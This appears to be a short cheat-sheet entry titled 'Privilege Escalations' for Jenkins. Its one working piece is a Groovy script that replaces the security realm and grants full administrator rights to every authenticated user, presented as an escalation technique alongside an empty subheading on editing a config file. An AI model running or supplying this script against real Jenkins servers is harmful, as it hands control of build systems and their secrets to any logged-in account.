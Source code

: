 # Privilege Escalations

## Give extra permissions to user by modifying the config file

## Give admin access to all authenticated users by executing a groovy script
```
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.GlobalMatrixAuthorizationStrategy()
strategy.add(Jenkins.ADMINISTER, 'authenticated')
instance.setAuthorizationStrategy(strategy)

instance.save()
```
http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/

